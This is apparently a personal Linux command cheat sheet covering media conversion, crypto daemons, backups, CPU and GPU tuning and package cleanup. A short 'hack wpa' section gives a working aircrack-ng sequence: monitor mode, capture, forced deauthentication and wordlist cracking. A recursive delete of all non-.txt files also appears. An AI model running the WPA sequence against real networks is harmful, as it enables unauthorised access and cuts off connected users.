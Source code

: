 unrar all archives in current folder
`$ for f in *.rar;do unrar e -o+ $f;done`  

show folder size 
`$ du -h --max-depth=1`  

convert movie to xbox360 format  
`$ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"`  

batch convert above  
```$ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done ```

monero daemon  
`$ monerod --data-dir /mnt/cloud/monero`  

import gpg key for aur packages  
`$ gpg --receive-key keyid`  

ethereum blockchain sync 
`$ geth --syncmode "fast"`  

show external ip  
`$ curl ifconfig.me`  

weather forecast  
`$ curl wttr.in/Wilhelmshaven`  

set gtk cursor global value for browsers $ gsettings set org.gnome.desktop.interface cursor-theme Adwaita  
calculator $ bc  
backup through ssh $ rsync -avz /source/folder/ user@remoteadress:/remote_folder  
unrar all archives in folder (autoverwrite enabled)  $ find . -name "*.rar" -exec unrar x -o+ {} \;  
show cpu frequency $ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\""  
force cpu governor $ sudo cpupower frequency-set -g powersave or performance  
list available governors $ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors  
show network usage $ iftop  
create playlist $ ls -1 *.mp4 > playlist.m3u  
cut characters playlist example $ cut -c 50- playlist.m3u > newplaylist.m3u  
batch rename delete example $ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  
output orphaned packages to file & run removal  $ sudo pacman -Qqdt > pkglist.txt & sudo pacman -R - < pkglist.txt  
hack wpa $ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  
hack wpa target network $ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  
force handshake $ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  
crack with wordlist $ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  
get nvme temperature $ sudo nvme smart-log /dev/nvme0 | grep temperature  
delete all but given extension $ find . -type f ! -name '*.txt' -delete  
amd vega current values $ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  
disable vsync environment variable $ vblank_mode=0  
current vega voltage values $ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  
force high dpm on graphics card $ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level  
